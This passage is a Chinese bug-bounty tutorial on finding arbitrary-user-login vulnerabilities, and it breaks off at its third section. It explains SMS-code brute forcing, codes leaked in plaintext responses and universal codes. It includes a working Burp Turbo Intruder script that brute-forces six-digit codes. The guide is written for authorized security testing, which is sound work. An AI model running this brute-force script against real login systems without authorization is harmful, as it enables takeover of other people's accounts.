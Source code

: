 任意用户登录漏洞挖掘思路
============

前言
--

任意用户登录漏洞以利用漏洞利用难度低、危害高、奖金高已经成为src/众测漏洞挖掘中的香饽饽，本文将分享一下众测/src中任意用户登录漏洞的挖掘思路。

1.手机验证码问题导致的任意用户登录
------------------

### 1.1 验证码爆破

​ 当登录流程使用手机验证码登录，没有图片验证码/图片验证码可重用/图片验证码简单可识别（可以使用captcha-killer-modified插件）且后端没有限制手机验证码验证错误次数时，可以尝试爆破手机验证码登录其他用户。

​ 4位验证码的爆破老生常谈不再赘述；随着厂商们服务器性能的提高，服务器的rps的上升也使得6位验证码的爆破越来越快，可以使用如下方法爆破（！！！需留意服务器的rps以及测试厂商的注意事项，rps低的老系统或者厂商禁止批量爆破的项目谨慎使用6位验证码的爆破！！！）：

​ 使用burpsuite的Turbo Intruder插件，编写如下脚本：

```php
import re

def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=30,
                           requestsPerConnection=30,
                           pipeline=True
                           )

    for i in range(1000000):                            #生成六位验证码字典
        number = "{:06d}".format(i)
        engine.queue(target.req, number.rstrip())

def handleResponse(req, interesting):
    # currently available attributes are req.status, req.wordcount, req.length and req.response
    if req.status <404:
        '''res = re.findall('Msg":"(.*?)"',req.response)[0]    
        if len(res)>18:'''                              #六位数的验证码爆破结果展示列太多，可根据实际情况自行筛选展示
        table.add(req)
```

成功案例如下：

![image-20231026152744211](https://shs3.b.qianxin.com/butian_public/f569252ea38f1a70e1f19836eea8bf50341ab80a2127e.jpg)

### 1.2 验证码明文返回

​ 获取手机验证码时，验证码直接在返回包里

![image-20231026153621371](https://shs3.b.qianxin.com/butian_public/f29427169da964cc10157fa9ec98efa75a51f93ff59f0.jpg)

### 1.3 存在万能验证码
